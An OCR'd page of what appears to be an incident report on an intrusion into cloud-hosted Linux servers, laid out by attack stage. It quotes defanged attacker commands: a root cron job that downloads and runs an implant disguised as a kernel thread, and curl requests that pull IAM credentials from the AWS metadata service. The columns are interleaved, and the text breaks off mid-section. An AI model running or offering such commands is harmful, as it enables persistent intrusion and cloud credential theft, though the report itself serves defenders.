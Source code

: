 Initial Access

The adversary exploited an RCE vulnerability 

that existed in a custom PHP application 

running on multiple Linux servers hosted in the 

victim organization's Cloud Service Provider 

environment.

Persistence

A cron job was created to download and run the Silver 

implant upon reboot. Silver is an open\-source cross\-platform 

adversary emulation/red team framework.

Credential Access

/var/spool/cron/crontabs/root:4:@reboot curl 

The adversary attempted to harvest Cloud Service 

hxxp:// \[REDACTED IPAddress]:8443/.tmpfs.cache 

Provider credentials via the AWS Instance Metadata 

\-o/dev/shm/tmpfs.cache; chmod \+x/dev/shm/.

Services API.

tmpfs.cache;bash \-c "exec \-a '\[kthread/4:3\-

bus]' /dev/shm/.tmpfs.cahce" \& disown

curl \-k http://169\.254\.169\[.]254/latest/

meta\-data/iam/security\-credentials/

curl hxxp://\[REDACTED ExternalIPAddress]/

curl \-k http://169\.254\.169\[.]254/latest/

m e t a \- d a t a / i a m / s e c u r i t y \- c r e d e n t i a l s /

\[REDACTED IAMRole]

\[REDACTED FileName] \-o /dev/shm/\[REDACTED 

Filename] \-a chmod \+x /dev/shm/\[REDACTED 

Filename] bash \-c "exec \-a '\[kworker/4:3\-

events] /dev/shm/\[REDACTED FileName]"

Discovery

Various discovery commands were executed, 

including attempts to view potentially sensitive 

Command and Control
